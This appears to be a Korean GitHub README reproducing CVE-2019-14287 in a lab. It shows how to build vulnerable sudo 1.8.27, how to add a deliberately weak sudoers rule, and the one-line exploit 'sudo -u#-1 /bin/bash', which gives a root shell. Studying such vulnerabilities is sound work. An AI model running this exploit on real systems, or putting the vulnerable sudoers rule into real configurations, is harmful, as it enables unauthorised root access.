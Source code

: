 # [목차]
**1. [Environment](#Environment)**

**2. [Setting](#Setting)**

**3. [Exploit](#Exploit)**

**4. [etc](#etc)**


***


# **Environment**

| Type     | OS             | App            |
| :---     | :---           | :---           |
| Victim   | Ubuntu 18.04.3 | [sudo 1.8.27](https://github.com/2jinu/CVE/raw/main/LPE/%5BLinux%5D%20CVE-2019-14287/file/sudo-1.8.27.tar.gz) |

# **Setting**

sudo파일 압축 해제

```sh
root@srv:~# tar -xf sudo-1.8.27.tar.gz
root@srv:~# ./configure --prefix=/usr --libexecdir=/usr/lib --with-secure-path --with-all-insults --with-env-editor --docdir=/usr/share/doc/sudo-1.8.27 --with-passprompt="[sudo] password for %p: "
root@srv:~# make
root@srv:~# make install
root@srv:~# chmod u+w /etc/sudoers
```

/etc/sudoers에 다음과 같이 설정

```sh
[추가]
"사용자 계정" ALL=(ALL,!root) NOPASSWD: ALL

[수정]
%admin과 %sudo 부분 주석처리
```

/etc/sudoers 권한 복구

```sh
root@srv:~# chmod u-w /etc/sudoers
```


# **Exploit**

```sh
user@srv:~$ sudo -u#-1 /bin/bash
```

# **etc**

sudo 버전 확인

```sh
user@srv:~# sudo -V
```

sudo 권한 확인

```sh
user@srv:~# sudo -l
```

표준입력으로 패스워드 입력

```sh
user@srv:~# sudo -S
```